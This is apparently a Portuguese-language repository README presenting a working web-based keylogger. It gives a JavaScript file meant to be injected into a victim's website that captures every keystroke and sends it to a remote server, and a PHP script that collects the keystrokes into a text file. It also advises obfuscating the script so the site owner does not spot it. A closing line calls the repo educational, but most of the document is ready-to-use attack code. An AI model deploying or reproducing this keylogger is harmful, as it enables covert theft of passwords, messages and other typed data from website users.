#### O QUE PODEMOS FAZER COM UM KEYLOGGER?


Keylogger é um tipo de software que, uma vez ativo em um sistema, pode registrar cada pressionamento de tecla feito pelo sistema. Todo o pressionamento de tecla gravado é salvo em um arquivo de log. Um keylogger pode gravar uma mensagem, e-mail e capturar qualquer tipo de informação que você digitar a qualquer momento usando o teclado.

### Criar arquivo JS Keylogger - keylogger.js

```
if((window.jQuery))
{
 console.log("jQuery Found");
}
else
{
 console.log("jQuery Not Found");
 var script = document.createElement('script');
 script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
 document.body.appendChild(script);
}

function c(d)
{
 jQuery.ajax(
 {
 dataType: "jsonp",
 type:"GET",
 url: "https://example.com/keylogger.php",
 jsonp:"keypressed",
 data:
 {
 altnKey:d.altKey?1:0,
 ctrlKey:d.ctrlKey?1:0,
 userKey:d.key,
 targKey:d.target.id,
 userURI:d.target.baseURI
 },
 async:false,
 success: function(data)
 {
 console.log(data);
 },
 error:function(xhr, ajaxOptions, thrownError)
 {
 console.log("Error");
 }
 });
}

window.onload = function()
{
 window.addEventListener("keydown", function(e)
 {
 c(e);
 });
}  
```
O código acima em JavaScript pode ser injetado diretamente no site da vítima ou pode ser hospedado remotamente. O objetivo deste código é pegar o pressionamento de tecla do usuário e enviá-lo para um servidor remoto. Certifique-se de substituir " https://example.com/keylogger.php " pelo URL real do seu arquivo PHP.

Para economizar tempo vamos fazer isso com jQuery. Portanto, para evitar erros, a primeira coisa que fazemos é garantir que o jQuery esteja presente na página da vítima e carregá-lo caso não o encontremos.

Declaramos uma função " c ", onde o parâmetro " d " será o pressionamento da tecla. Esta função terá uma chamada Ajax para o arquivo PHP que recebe as teclas.

#### Criar arquivo PHP Keylogger - keylogger.php

```
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
 $fh = fopen($file, 'w');
}

function f($str)
{
 return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```

A parte do servidor está em PHP. Não há nada a explicar sobre o código acima, o objetivo do arquivo PHP é receber o valor do pressionamento de tecla transferido em Ajax pelo JavaScript e armazená-lo em um arquivo de texto simples. O "keylogger.php" deve ser hospedado em um servidor remoto e a URL completa do arquivo deve ser especificada no arquivo "keylogger.js".

Você pode adaptar o código acima para atender às suas necessidades exatas. Por exemplo, talvez você queira salvar os resultados diretamente em um banco de dados ou enviá-los para um endereço de e-mail.
COMO FUNCIONA ?
Um keylogger simples baseado na web. Nesta documentação, você saberá como funciona o keylogger, tipo de programação pela qual registramos e monitoramos cada pressionamento de tecla digitado pelo usuário em um site.

#### OBFUSCAÇÃO DE JAVASCRIPT
Podemos ir mais longe, usando uma ferramenta on-line de ofuscação para ocultar nosso código JavaScript e evitar que o proprietário do site detecte o keylogger à primeira vista.

Sinta-se livre para contribuir para corrigir quaisquer problemas, ou para apresentar um problema!

Por favor, note, este repo é apenas para fins educacionais. Nenhum contribuinte, maior ou menor, é culpado por quaisquer ações feitas por este programa.
